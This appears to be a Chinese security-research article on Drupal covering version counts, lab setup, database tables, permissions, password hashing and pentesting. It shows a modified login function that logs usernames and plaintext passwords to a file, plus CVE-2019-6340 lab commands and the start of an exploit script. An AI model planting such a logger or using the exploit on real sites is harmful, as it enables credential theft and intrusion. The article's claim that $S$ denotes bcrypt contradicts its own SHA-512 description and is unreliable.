

# Drupal 安全技术研究 - 先知社区

Drupal 安全技术研究

- - -

Drupal 是一个高度灵活的开源内容管理框架，适合于开发复杂和高度定制的网站和应用。它被认为是三者中最强大但也最难以掌握的 CMS，提供了高级的 API 和开发工具，使开发者能够构建功能丰富的定制网站。Drupal 适合于需要高度数据管理、分类以及扩展性的大型企业级网站，如社区门户网站、论坛、电子商务平台等。Drupal 的特点是安全性高、性能好，但对用户和开发者来说，它的学习和使用门槛较高。

# 0.主流版本测绘

-   github 上的 drupal 最新版本分支为 11.x（截至 2024 年 02 月 03 日）
-   通过 fofa-api 搜索 drupal-{list(range(1,12))} && country!="CN"来粗略统计境外 drupal 各版本占有率
-   不考虑指纹伪造
-   不考虑蜜罐

```plain
import requests
import base64
import time
import json

url = "https://fofa.info/api/v1/search/all?email=&key=&qbase64="

results = []
for i in list(range(1,12)):
    query = f'"drupal-{i}" && country!="CN"'
    query = query.encode('utf-8')
    res = requests.get(url+base64.b64encode(query).decode()).text
    json_res = json.loads(res)
    size = json_res['size']
    results.append((i, size))
    time.sleep(3)

sorted_results = sorted(results, key=lambda x: x[1], reverse=True)

for item in sorted_results:
    print(f'境外服务器 drupal{item[0]}.x 的数量为：{item[1]}')
```

```plain
境外服务器 drupal 7.x 的数量为：1001230
境外服务器 drupal 9.x 的数量为：421823
境外服务器 drupal 8.x 的数量为：295587
境外服务器 drupal 10.x 的数量为：100319
境外服务器 drupal 6.x 的数量为：5101
境外服务器 drupal 1.x 的数量为：3417
境外服务器 drupal 5.x 的数量为：866
境外服务器 drupal 2.x 的数量为：612
境外服务器 drupal 4.x 的数量为：422
境外服务器 drupal 3.x 的数量为：235
境外服务器 drupal 11.x 的数量为：135
```

[](https://cdn.nlark.com/yuque/0/2024/png/21402865/1706959153715-1cd9c127-57a5-4a0a-947d-0d6822b6fd14.png#averageHue=%23e0e0e0&clientId=ufebeb260-ffa1-4&from=paste&height=529&id=ucb005288&originHeight=1058&originWidth=1764&originalType=binary&ratio=2&rotation=0&showTitle=false&size=128008&status=done&style=none&taskId=u656a4303-fb19-4c0e-b2c2-c7f233ef212&title=&width=882)  
Top3:7.x, 9.x, 8.x

# 1.使用研究

## 1.1 环境搭建

> 使用研究环境使用 docker 搭建 drupal7.99 版本

### 1.1.1 Drupal 7.99

```plain
version: "3"

services:
  drupal:
    image: drupal:7.99-php8.2-apache-bullseye
    depends_on:
      - db
    ports:
      - "18082:80"
    volumes:
      - ./html:/var/www/html

  db:
    image: mariadb:10.6.4-focal
    environment:
      MYSQL_ROOT_PASSWORD: 123456
      MYSQL_DATABASE: drupal
      MYSQL_USER: root
      MYSQL_PASSWORD: 123456
    volumes:
      - ./database:/var/lib/mysql
```

- - -

这里踩了一个坑：直接通过这个**docker-compose.yaml**文件配置并启动服务后，访问 18082 端口后返回了 403 Forbidden  
进一步检查发现，当通过带有卷映射的**docker-compose.yaml**文件部署 Drupal 后，容器内的**/var/www/html/**目录竟然是空的，这应该就是导致 403 Forbidden 错误的直接原因  
但在这之前部署 WordPress 和 Joomla 时都是通过这样的方式编写 yaml 文件，并没有发生过类似错误  
推测这可能是因为 Drupal 的官方 docker 镜像并没有像 WordPress 或 Joomla 的镜像那样，在首次启动时检查**/var/www/html/**目录是否为空，如果检测到该目录为空，则会自动复制必要的文件到这个目录中  
于是我先从**docker-compose.yaml**文件中移除**volumes**配置，这样 Drupal 容器就能正常启动并且网页也能正常访问了  
在确认容器内的**/var/www/html**目录有了 Drupal 所需的文件后，我使用**docker cp**命令将这些文件从容器复制到宿主机./html 上  
完成这一步骤后，我再次修改**docker-compose.yaml**文件，重新加入**volumes**配置，并重新部署 Drupal 容器，这次 drupal 的访问就没有发生任何问题，路径也被正常映射

- - -

为了深入理解这个问题，通过 dockerhub 我找到了 github 上 wordpress 和 drupal 官方镜像的 Dockerfile  
我发现整体上 wordpress 比 drupal 的 Dockerfile 多了下面两个配置：

-   VOLUME /var/www/html
-   ENTRYPOINT \["docker-entrypoint.sh"\]

第一个配置是 wordpress 声明了挂载点/var/www/html 但这个操作不影响 docker-compose.yaml 中配置卷映射来进行数据持久化  
第二个配置是为 wordpress 容器的首次启动指定了入口脚本 其中为了解决首次部署写入了 volumes 配置导致/var/www/html 目录被置空的问题 进行了以下操作

```plain
if [ ! -e index.php ] && [ ! -e wp-includes/version.php ]; then
        # if the directory exists and WordPress doesn't appear to be installed AND the permissions of it are root:root, let's chown it (likely a Docker-created directory)
        if [ "$uid" = '0' ] && [ "$(stat -c '%u:%g' .)" = '0:0' ]; then
            chown "$user:$group" .
        fi

        echo >&2 "WordPress not found in $PWD - copying now..."
        if [ -n "$(find -mindepth 1 -maxdepth 1 -not -name wp-content)" ]; then
            echo >&2 "WARNING: $PWD is not empty! (copying anyhow)"
        fi
        sourceTarArgs=(
            --create
            --file -
            --directory /usr/src/wordpress
            --owner "$user" --group "$group"
        )
        targetTarArgs=(
            --extract
            --file -
        )
        if [ "$uid" != '0' ]; then
            # avoid "tar: .: Cannot utime: Operation not permitted" and "tar: .: Cannot change mode to rwxr-xr-x: Operation not permitted"
            targetTarArgs+=( --no-overwrite-dir )
        fi
        # loop over "pluggable" content in the source, and if it already exists in the destination, skip it
        # https://github.com/docker-library/wordpress/issues/506 ("wp-content" persisted, "akismet" updated, WordPress container restarted/recreated, "akismet" downgraded)
        for contentPath in \
            /usr/src/wordpress/.htaccess \
            /usr/src/wordpress/wp-content/*/*/ \
        ; do
            contentPath="${contentPath%/}"
            [ -e "$contentPath" ] || continue
            contentPath="${contentPath#/usr/src/wordpress/}" # "wp-content/plugins/akismet", etc.
            if [ -e "$PWD/$contentPath" ]; then
                echo >&2 "WARNING: '$PWD/$contentPath' exists! (not copying the WordPress version)"
                sourceTarArgs+=( --exclude "./$contentPath" )
            fi
        done
        tar "${sourceTarArgs[@]}" . | tar "${targetTarArgs[@]}"
        echo >&2 "Complete! WordPress has been successfully copied to $PWD"
    fi
```

这段 shell 脚本通过检查 index.php 和 wp-includes/version.php 文件是否存在来判定 wordpress 是否正常安装 (上文遇到/var/www/html/目录为空的情况就判定为了未正常安装)  
然后脚本就会创建一个包含/usr/src/wordpress 目录下所有文件的 tar 归档文件，将它解压到当前工作目录  
由于运行权限是 www-data，那么当前目录将会位于 home 目录/var/www/html/  
这就确保了即使挂载到/var/www/html/的卷是空的，也能从镜像内部预存的源目录中复制出 wordpress 所需的文件

> drupal 为什么不解决这个问题，让我们听听 GPT 的回答：

Drupal 和 WordPress 在设计和社区哲学上有所不同，这可能影响了他们对启动脚本处理方式的选择。Drupal 可能更倾向于提供一个灵活的基础，让用户根据自己的需要进行配置，而不是在镜像层面解决所有问题。此外，Drupal 的部署和配置可能被认为更适合通过外部脚本、容器编排工具（如 Kubernetes 或 Docker Compose）或手动配置来管理，以适应多样化的部署场景。每个项目社区根据其用户基础、用例和哲学做出最适合自己的决策。

- - -

初始化过程中发现 drupal 与 Joomla 一样，对用户密码进行了复杂性策略要求，避免了弱口令的使用

[](https://cdn.nlark.com/yuque/0/2024/png/21402865/1707020262603-0945ce0f-ecc4-4bed-a2f6-d5925904c882.png#averageHue=%23e1e1e1&clientId=u69522c63-85b4-4&from=paste&height=733&id=aFc4h&originHeight=1466&originWidth=1646&originalType=binary&ratio=2&rotation=0&showTitle=false&size=233266&status=done&style=none&taskId=u5245cbc0-025a-4079-a43a-675a22b944b&title=&width=823)

[](https://cdn.nlark.com/yuque/0/2024/png/21402865/1707111757925-16f53a6e-9614-46b3-98e2-3afb9068da97.png#averageHue=%23939393&clientId=u3c29b2ac-da4e-4&from=paste&height=755&id=uad5f957f&originHeight=1510&originWidth=3094&originalType=binary&ratio=2&rotation=0&showTitle=false&size=245777&status=done&style=none&taskId=u5e6fc11c-29dc-4339-a232-f337e726503&title=&width=1547)

### 1.1.2 Drupal 目录结构说明

1.  **根目录文件**：Drupal 的核心文件，负责处理请求和加载其他文件。
    -   **index.php**：网站的主入口文件。
    -   **LICENSE.txt**：Drupal 的许可证文件。
    -   **README.txt**：安装和升级信息。
    -   **update.php**：用于更新 Drupal 核心和模块的脚本。
    -   **cron.php**：处理计划任务的脚本。
2.  **includes**：包含 Drupal 核心 API 函数和类的文件，支持系统功能。
3.  **modules**：存放核心模块文件，为 Drupal 提供各种功能。
4.  **profiles**：包含安装配置文件，用于 Drupal 的安装过程。
5.  **sites**：站点特定配置，如设置和文件，支持多站点架构。
6.  **themes**：存放主题文件，用于定义网站的外观和布局。
7.  **misc**：包含 JavaScript 库和公共文件。
8.  **scripts**：包含辅助脚本和工具。

## 1.2 数据库表结构与内容研究

### 1.2.1 数据表总览

```plain
MariaDB [drupal]> show tables;
+-----------------------------+
| Tables_in_drupal            |
+-----------------------------+
| actions                     |存储可触发的系统动作信息 如再特定事件发生时自动执行的任务
| authmap                     |用户映射外部认证机制的用户账号，支持用户通过第三方服务登录
| batch                       |存储批处理操作的信息，用户执行大量数据处理时追踪进度和管理任务
| block                       |包含站点中区块的配置信息，如位置和显示条件
| block_custom                |存储自定义区块的内容和相关设置
| block_node_type             |关联区块和内容类型，定义哪些区块可用于特定的内容类型
| block_role                  |定义区块和角色的关系，控制不同用户角色可以访问的区块
| blocked_ips                 |记录被禁止访问站点的 ip 地址，用户安全控制
| cache                       |
| cache_block                 |
| cache_bootstrap             |
| cache_field                 |
| cache_filter                |
| cache_form                  |
| cache_image                 |
| cache_menu                  |
| cache_page                  |
| cache_path                  |cache 系列表用于存储各种缓存数据以提高 drupal 网站的性能
| comment                     |存储用户对内容项（如文章和页面）的评论
| date_format_locale          |保存与特定地区相关的日期格式
| date_format_type            |定义了不同的日期格式类型，如短日期、长日期登
| date_formats                |存储系统中定义的日期格式
| field_config                |存储字段的全局设置
| field_config_instance       |存储字段的特定实例设置
| field_data_body             |
| field_data_comment_body     |
| field_data_field_image      |
| field_data_field_tags       |field_data_系列表用于存储字段数据
| field_revision_body         |
| field_revision_comment_body |
| field_revision_field_image  |
| field_revision_field_tags   |field_revision 系列表用于存储修订版本
| file_managed                |管理和记录站点上上传的文件信息
| file_usage                  |跟踪文件被不同组件使用的情况
| filter                      |存储文本过滤器的配置信息
| filter_format               |定义了不同的文本格式
| flood                       |用户防止表单提交登操作的泛洪攻击
| history                     |记录用户查看节点的历史信息
| image_effects               |存储图像样式的效果信息
| image_styles                |定义了图片样式 如缩略图、大图
| menu_custom                 |存储自定义菜单的信息
| menu_links                  |存储菜单项的链接信息
| menu_router                 |存储路由信息，用户页面回调函数的匹配
| node                        |存储内容节点的基本信息
| node_access                 |管理节点访问控制的规则
| node_comment_statistics     |存储节点评论的统计信息
| node_revision               |节点的修订版本信息
| node_type                   |定义了不同的内容类型
| queue                       |用户存储待处理任务的队列信息
| rdf_mapping                 |存储资源描述框架（RDF）映射的信息，用于将 Drupal 数据与 RDF 数据关联
| registry                    |用户存储模块和类的注册信息，帮助 drupal 管理和加载模块
| registry_file               |存储模块和文件之间的映射关系
| role                        |存储用户角色的信息
| role_permission             |存储角色和权限之间的关联
| search_dataset              |存储搜索相关的数据集信息
| search_index                |存储搜索索引的数据
| search_node_links           |存储节点链接信息，用户搜索
| search_total                |存储搜索结果的总数
| semaphore                   |用户进程间同步的信号量，避免竞态条件
| sequences                   |存储数据库序列的信息，用户生成唯一标识符
| sessions                    |存储用户回话信息
| shortcut_set                |存储快捷方式集合的信息
| shortcut_set_users          |存储用户与快捷方式集合之间的关联
| system                      |存储已安装模块、主题和其他系统设置的信息
| taxonomy_index              |存储分类词汇的索引信息，用于分类搜索
| taxonomy_term_data          |存储分类词汇的基本信息
| taxonomy_term_hierarchy     |存储分类词汇的层次结构信息
| taxonomy_vocabulary         |存储分类词汇表的信息
| url_alias                   |存储 URL 路径别名与实际路径之间的映射关系
| users                       |存储用户的基本信息
| users_roles                 |存储用户与角色之间的关联
| variable                    |存储系统变量和设置的值
| watchdog                    |存储系统日志和事件信息，用户故障排除和记录
+-----------------------------+
73 rows in set (0.004 sec)
```

### 1.2.2 数据表及数据内容研究

#### 节点 \[node\]

节点是 drupal 中的核心概念，它代表了网站上的基本内容单元。节点通常用于表示网站上的各种内容，例如文章、页面、评论、博客帖子、产品等。每个节点都有一个唯一的标识符（Node ID）和相应的内容。  
drupal 中提供了两个节点类型，即 Article 和 Basic page  
[](https://cdn.nlark.com/yuque/0/2024/png/21402865/1707113981589-10d4d91d-f963-40bb-9789-bb9e254af3a5.png#averageHue=%23858585&clientId=ud1372e45-942e-4&from=paste&height=442&id=u6cd468d9&originHeight=884&originWidth=3064&originalType=binary&ratio=2&rotation=0&showTitle=false&size=182871&status=done&style=none&taskId=u812d5db2-884c-4940-8d2f-6d1c48e31f4&title=&width=1532)  
Article 节点通常用于发布新闻、博客文章或其他常规内容。这些内容通常会在网站的前台页面中以列表或文章形式显示，用户可以直接在首页或文章列表中看到它们。  
Basic page 节点代表独立的页面，通常用于创建静态内容页面，例如关于我们、联系我们、隐私政策等。这些页面不像文章那样在首页列表中显示，而是需要用户通过导航菜单或直接访问页面的 URL 来查看。  
我们分别添加两个节点的内容  
[](https://cdn.nlark.com/yuque/0/2024/png/21402865/1707115795907-81babaaa-ce46-4c90-81f5-4ecd502959f6.png#averageHue=%239db5ca&clientId=ud1372e45-942e-4&from=paste&height=357&id=u322d41c3&originHeight=714&originWidth=2120&originalType=binary&ratio=2&rotation=0&showTitle=false&size=126065&status=done&style=none&taskId=uff582fba-7f2a-41cf-824e-6405b3e12a1&title=&width=1060)  
[](https://cdn.nlark.com/yuque/0/2024/png/21402865/1707115816764-ca218aed-3d65-4691-91cb-8e134a9b7fe3.png#averageHue=%239db5cb&clientId=ud1372e45-942e-4&from=paste&height=368&id=u6642f2d3&originHeight=736&originWidth=2384&originalType=binary&ratio=2&rotation=0&showTitle=false&size=122714&status=done&style=none&taskId=u96df4928-3a30-43e7-ad0b-fe0cbc4e48c&title=&width=1192)  
添加内容会将节点相关信息存储在 node 表中  
在这之前我们先了解一下 node 表结构

```plain
MariaDB [drupal]> desc node;
+-----------+------------------+------+-----+---------+----------------+
| Field     | Type             | Null | Key | Default | Extra          |
+-----------+------------------+------+-----+---------+----------------+
| nid       | int(10) unsigned | NO   | PRI | NULL    | auto_increment |
| vid       | int(10) unsigned | YES  | UNI | NULL    |                |
| type      | varchar(32)      | NO   | MUL |         |                |
| language  | varchar(12)      | NO   | MUL |         |                |
| title     | varchar(255)     | NO   | MUL |         |                |
| uid       | int(11)          | NO   | MUL | 0       |                |
| status    | int(11)          | NO   | MUL | 1       |                |
| created   | int(11)          | NO   | MUL | 0       |                |
| changed   | int(11)          | NO   | MUL | 0       |                |
| comment   | int(11)          | NO   |     | 0       |                |
| promote   | int(11)          | NO   | MUL | 0       |                |
| sticky    | int(11)          | NO   |     | 0       |                |
| tnid      | int(10) unsigned | NO   | MUL | 0       |                |
| translate | int(11)          | NO   | MUL | 0       |                |
+-----------+------------------+------+-----+---------+----------------+
14 rows in set (0.009 sec)

字段  意义
nid 节点 ID，是一个无符号整数，用于唯一标识每个节点，是主键（PRI）和自动增量（auto_increment）字段。
vid 版本 ID，是一个无符号整数，可为空（YES），用于表示节点的版本。该字段在创建新版本时使用，与历史版本相关。
type    节点类型，是一个 varchar(32) 类型的字段，用于表示节点的类型。通常是文章、页面等。
language    语言，是一个 varchar(12) 类型的字段，用于表示节点的语言设置。
title   标题，是一个 varchar(255) 类型的字段，用于存储节点的标题信息。
uid 用户 ID，是一个整数，用于表示创建该节点的用户 ID。
status  状态，是一个整数，表示节点的状态，通常用于表示节点是否处于发布状态。1 表示已发布，0 表示未发布。
created 创建时间，是一个整数，表示节点的创建时间戳。
changed 修改时间，是一个整数，表示节点的最后修改时间戳。
comment 评论数，是一个整数，表示与该节点关联的评论数量。
promote 推荐状态，是一个整数，表示节点是否被推荐。通常用于在首页或其他页面中突出显示某些节点。
sticky  置顶状态，是一个整数，表示节点是否被置顶。通常用于确保某些节点始终位于列表的顶部。
tnid    翻译节点 ID，是一个无符号整数，用于表示与当前节点相关联的翻译节点的 ID。
translate   翻译状态，是一个整数，表示节点的翻译状态。通常用于多语言网站，表示节点是否已被翻译。
```

drupal 会把内容的节点类型、语言、标题等相关信息放入 node 表中

```plain
MariaDB [drupal]> select * from node;
+-----+------+---------+----------+-------------------+-----+--------+------------+------------+---------+---------+--------+------+-----------+
| nid | vid  | type    | language | title             | uid | status | created    | changed    | comment | promote | sticky | tnid | translate |
+-----+------+---------+----------+-------------------+-----+--------+------------+------------+---------+---------+--------+------+-----------+
|   1 |    1 | article | und      | The first article |   1 |      1 | 1707113706 | 1707113706 |       2 |       1 |      0 |    0 |         0 |
|   2 |    2 | page    | und      | The first page    |   1 |      1 | 1707113945 | 1707113945 |       1 |       0 |      0 |    0 |         0 |
+-----+------+---------+----------+-------------------+-----+--------+------------+------------+---------+---------+--------+------+-----------+
2 rows in set (0.011 sec)
```

#### 用户及权限

users 表存储了 drupal 用户的相关信息，如密码哈希值、邮箱、登录时间、访问时间等基本信息

```plain
MariaDB [drupal]> select * from users limit 1,1\G;
*************************** 1. row ***************************
             uid: 1
            name: may
            pass: $S$D7RUZRn.5.PUYe6XnhpGCgJP6F.qgcUFPbEY.DymQzcnVYyNFH/T
            mail: 1234567@qq.com
           theme:
       signature:
signature_format: NULL
         created: 1707020191
         changed: 1707020271
          access: 1707114918
           login: 1707114545
          status: 1
        timezone: Asia/Shanghai
        language:
         picture: 0
            init: 1234567@qq.com
            data: b:0;
1 row in set (0.009 sec)
```

role 表记录了 drupal 中所有的角色名称及对应的 id

```plain
MariaDB [drupal]> select * from role;
+-----+--------------------+--------+
| rid | name               | weight |
+-----+--------------------+--------+
|   3 | administrator      |      2 |
|   1 | anonymous user     |      0 |
|   2 | authenticated user |      1 |
+-----+--------------------+--------+
```

角色主要分为管理员、匿名用户和登录用户  
而 users\_roles 表则把 users 表和 role 表中的 uid 与 rid 进行了对应

```plain
MariaDB [drupal]> select * from users_roles;
+-----+-----+
| uid | rid |
+-----+-----+
|   1 |   3 |
+-----+-----+
1 row in set (0.001 sec)
```

这说明 uid：1（用户 may）属于 rid：3（administrator 管理员）  
而不同角色所拥有的权限则被记录在 role\_permission 表中

```plain
MariaDB [drupal]> select * from role_permission;
+-----+------------------------------------+------------+
| rid | permission                         | module     |
+-----+------------------------------------+------------+
|   1 | access comments                    | comment    |
|   1 | access content                     | node       |
|   1 | use text format filtered_html      | filter     |
|   2 | access comments                    | comment    |
|   2 | access content                     | node       |
|   2 | post comments                      | comment    |
|   2 | skip comment approval              | comment    |
|   2 | use text format filtered_html      | filter     |
|   3 | access administration pages        | system     |
|   3 | access comments                    | comment    |
|   3 | access content                     | node       |
|   3 | access content overview            | node       |
|   3 | access contextual links            | contextual |
|   3 | access dashboard                   | dashboard  |
|   3 | access overlay                     | overlay    |
|   3 | access site in maintenance mode    | system     |
|   3 | access site reports                | system     |
|   3 | access toolbar                     | toolbar    |
|   3 | access user profiles               | user       |
|   3 | administer actions                 | system     |
|   3 | administer blocks                  | block      |
|   3 | administer comments                | comment    |
|   3 | administer content types           | node       |
|   3 | administer fields                  | field      |
|   3 | administer filters                 | filter     |
|   3 | administer image styles            | image      |
|   3 | administer menu                    | menu       |
|   3 | administer modules                 | system     |
|   3 | administer nodes                   | node       |
|   3 | administer permissions             | user       |
|   3 | administer search                  | search     |
|   3 | administer shortcuts               | shortcut   |
|   3 | administer site configuration      | system     |
|   3 | administer software updates        | system     |
|   3 | administer taxonomy                | taxonomy   |
|   3 | administer themes                  | system     |
|   3 | administer url aliases             | path       |
|   3 | administer users                   | user       |
|   3 | block IP addresses                 | system     |
|   3 | bypass node access                 | node       |
|   3 | cancel account                     | user       |
|   3 | change own username                | user       |
|   3 | create article content             | node       |
|   3 | create page content                | node       |
|   3 | create url aliases                 | path       |
|   3 | customize shortcut links           | shortcut   |
|   3 | delete any article content         | node       |
|   3 | delete any page content            | node       |
|   3 | delete own article content         | node       |
|   3 | delete own page content            | node       |
|   3 | delete revisions                   | node       |
|   3 | delete terms in 1                  | taxonomy   |
|   3 | edit any article content           | node       |
|   3 | edit any page content              | node       |
|   3 | edit own article content           | node       |
|   3 | edit own comments                  | comment    |
|   3 | edit own page content              | node       |
|   3 | edit terms in 1                    | taxonomy   |
|   3 | post comments                      | comment    |
|   3 | revert revisions                   | node       |
|   3 | search content                     | search     |
|   3 | select account cancellation method | user       |
|   3 | skip comment approval              | comment    |
|   3 | switch shortcut sets               | shortcut   |
|   3 | use advanced search                | search     |
|   3 | use text format filtered_html      | filter     |
|   3 | use text format full_html          | filter     |
|   3 | view own unpublished content       | node       |
|   3 | view revisions                     | node       |
|   3 | view the administration theme      | system     |
+-----+------------------------------------+------------+
70 rows in set (0.001 sec)
```

role\_permission 表通过 vid、permission、moudule 三个字段描述了不同角色在各个模块中拥有的权限

#### 配置信息

variable 表存储有关 Drupal 配置设置的所有信息，包括站点名称、口号和其他设置。  
variable 的表结构很简单 可以理解为键和值

```plain
MariaDB [drupal]> desc variable;
+-------+--------------+------+-----+---------+-------+
| Field | Type         | Null | Key | Default | Extra |
+-------+--------------+------+-----+---------+-------+
| name  | varchar(128) | NO   | PRI |         |       |
| value | longblob     | NO   |     | NULL    |       |
+-------+--------------+------+-----+---------+-------+
2 rows in set (0.024 sec)
```

其中存储了 32 条数据涵盖了 drupal 的常规设置、安全配置、用户设置和其他配置

## 1.3 用户权限管理研究

Drupal 提供了多种管理用户权限的方式，并且比 wordpress 和 joomla 的细粒度更高

### 1.3.1 用户界面

[](https://cdn.nlark.com/yuque/0/2024/png/21402865/1707210422559-00afecdc-8654-4a9f-8e4d-4e16f6a5c2b4.png#averageHue=%23c1c1bf&clientId=u04a42914-62ec-4&from=paste&height=855&id=u9ab249f0&originHeight=1710&originWidth=3094&originalType=binary&ratio=2&rotation=0&showTitle=false&size=503527&status=done&style=none&taskId=ub35de24a-ed3f-4815-aabf-b5682fbed13&title=&width=1547)

通过用户界面 Modules -> Permissions 可以对不同的功能模块进行权限配置  
比如可以对 comment 评论模块进行权限配置  
[](https://cdn.nlark.com/yuque/0/2024/png/21402865/1707210596535-9bf676d5-6add-459d-b5b9-ec1a889ae357.png#averageHue=%23c2c2c1&clientId=u04a42914-62ec-4&from=paste&height=857&id=u938b52c6&originHeight=1714&originWidth=3094&originalType=binary&ratio=2&rotation=0&showTitle=false&size=399393&status=done&style=none&taskId=ue2c7b213-3c47-413c-b6ce-0faa1073a64&title=&width=1547)

### 1.3.2 配置文件

通过配置文件来管理权限可以比在用户界面管理有更高的自定义程度，但这是一种静态的方式，只适合简单的权限管理  
在/sites/default/config/下创建 user.roles.inc 文件进行权限配置

```plain
<?php

/**
 * 定义角色和权限的映射。
 */

$roles = array(
  // 管理员角色
  'administrator' => array(
    'access administration pages',
    'access content overview',
    'access user profiles',
    'administer blocks',
    'administer comments',
    'administer content types',
    'administer filters',
    'administer menus',
    'administer modules',
    'administer people',
    'administer themes',
    'administer users',
    'bypass node access',
    'create content',
    'create users',
    'delete any content',
    'delete own content',
    'edit any content',
    'edit own content',
    'post comments',
    'skip comment approval',
    'use advanced text editor',
    'view all revisions',
    'view the administration theme',
  ),

  // 编辑角色
  'editor' => array(
    'access content overview',
    'access user profiles',
    'create content',
    'delete own content',
    'edit any content',
    'edit own content',
    'post comments',
    'skip comment approval',
    'use advanced text editor',
    'view all revisions',
  ),

  // 作者角色
  'author' => array(
    'access content overview',
    'access user profiles',
    'create content',
    'delete own content',
    'edit own content',
    'post comments',
    'use advanced text editor',
  ),

  // 认证用户角色
  'authenticated user' => array(
    'access content',
    'access user profiles',
    'post comments',
    'use advanced text editor',
  ),

  // 匿名用户角色
  'anonymous user' => array(
    'access content',
  ),
);
```

再这个配置文件示例中，我们定义了 5 个角色，它们分别拥有的权限如下

-   **管理员** 拥有所有权限。
-   **编辑** 可以创建、编辑和删除内容，以及发布评论。
-   **作者** 可以创建、编辑和删除自己的内容，以及发布评论。
-   **认证用户** 可以查看内容、访问用户配置文件并发布评论。
-   **匿名用户** 可以查看内容。

### 1.3.3 api

api 权限配置更适用于复杂的权限管理  
这段代码演示了创建 author 作者角色，可以创建、编辑和删除自己的内容，以及发布评论

```plain
<?php

// 创建角色。
$role = user_role_create('author');

// 授予角色权限。
user_role_grant_permissions($role, array(
  'access content overview',
  'access user profiles',
  'create content',
  'delete own content',
  'edit own content',
  'post comments',
  'use advanced text editor',
));

// 保存角色。
user_role_save($role);
```

### 1.3.4 第三方模块

Drupal 的模块商店提供了许多第三方的权限管理模块  
[](https://cdn.nlark.com/yuque/0/2024/png/21402865/1707211605971-81762361-d8e1-41d9-baef-b5bb20f63c08.png#averageHue=%23eaeaea&clientId=u04a42914-62ec-4&from=paste&height=854&id=ue1778c0c&originHeight=1708&originWidth=3094&originalType=binary&ratio=2&rotation=0&showTitle=false&size=544326&status=done&style=none&taskId=u3feb58aa-6946-437f-bf90-bd904134764&title=&width=1547)

## 1.4 用户密码加密算法研究

Drupal 使用 SHA-512 算法、随机盐值和可配置的迭代次数进行加密 其关键代码位于/includes/password.inc

```plain
function user_hash_password($password, $count_log2 = 0) {
  if (empty($count_log2)) {
    // Use the standard iteration count.
    $count_log2 = variable_get('password_count_log2', DRUPAL_HASH_COUNT);
  }
  return _password_crypt('sha512', $password, _password_generate_salt($count_log2));
}
```

这个函数执行了以下步骤：

**获取迭代次数：**

-   若 $count\_log2 为空，则从配置中获取 password\_count\_log2 值。
-   若配置中也没有值，则使用默认值 DRUPAL\_HASH\_COUNT。

**生成盐值：**

-   调用 \_password\_generate\_salt($count\_log2) 函数生成随机盐值。

**加密密码：**

-   调用 \_password\_crypt('sha512', $password, $salt) 函数使用 SHA-512 算法加密密码并混入盐值。

**返回密码哈希：**

-   返回加密后的密码哈希值

返回的哈希形式如下： $S$D7RUZRn.5.PUYe6XnhpGCgJP6F.qgcUFPbEY.DymQzcnVYyNFH/T  
其格式如下：  
$S$：哈希算法标识符，在这种情况下，它指示使用 bcrypt 算法  
D7RUZRn.5：工作因子，指示 bcrypt 应执行多少轮哈希  
PUYe6XnhpGCgJP6F.qgcUFPbEY.DymQzcnVYyNFH/T：哈希值

## 1.5 登录明文密码劫持

Drupal 登录逻辑中的接收表单数据是使用 drupal form api 完成的，其关键代码位于/includes/form.inc，它提供了一组通用的函数和类用于构建和处理表单。  
表单 API 属于抽象层，我们还是直接劫持业务逻辑层的密码验证函数，关键代码位于/includes/password.inc

```plain
function user_check_password($password, $account) {
    $plaintext = $account->name.$password;
    file_put_contents('/var/log/accesss.log',$plaintext);

    if (substr($account->pass, 0, 2) == 'U$') {
    // This may be an updated password from user_update_7000(). Such hashes
    // have 'U' added as the first character and need an extra md5().
    $stored_hash = substr($account->pass, 1);
    $password = md5($password);
      ...
    }
```

我们只需要劫持$password 和$account 即可得到明文账号密码，需要注意的是$account 变量是一个数组，需要劫持$account->name，具体代码实现参照 wordpress 安全技术研究

# 2.Drupal 渗透测试研究

## 2.1 主流工具

### droopescan

droopescan 是一款使用 python 开发的跨平台 drupal 扫描工具  
[https://github.com/SamJoan/droopescan](https://github.com/SamJoan/droopescan)

## 2.2 getshell 测试案例

Drupal 的 RCE 漏洞还是挺多的，在 exploit-db 能搜索到 40+ 与 RCE 相关的漏洞

### CVE-2019-6340

-   概述

CVE-2019-6340 是 Drupal 8.x 版本中一个远程代码执行 (RCE) 漏洞，影响范围： 
Drupal 8.6.x < 8.6.10  
Drupal 8.5.x < 8.5.11

-   漏洞成因

该漏洞存在于 Drupal 核心 RESTful Web Services (REST) 模块中，该模块默认情况下是禁用的。当用户启用该模块时，攻击者可以利用 REST API 中的某些字段类型无法正确清理非格式源中的数据，通过精心构造的恶意请求，在服务器上执行任意代码。

-   漏洞影响

该漏洞允许攻击者在未经授权的情况下，在目标服务器上执行任意代码，从而获取服务器控制权，并进行各种恶意操作，

```plain
docker pull knqyf263/cve-2019-6340
docker run -d -p 18084:80 --name Drupal8  knqyf263/cve-2019-6340
```

exp:[https://github.com/zhzyker/exphub/blob/master/drupal/cve-2019-6340\_cmd.py](https://github.com/zhzyker/exphub/blob/master/drupal/cve-2019-6340_cmd.py)

```plain
import requests
import sys
import re

if len(sys.argv) != 2:
    print("+---------------------------------------------------------------+")
    print("+ DES: by zhzyker as https://github.com/zhzyker/exphub          +")
    print("+                    https://freeerror.org/d/488                +")
    print("+---------------------------------------------------------------+")
    print("+ USE: python3 <filename> <url>                                 +")
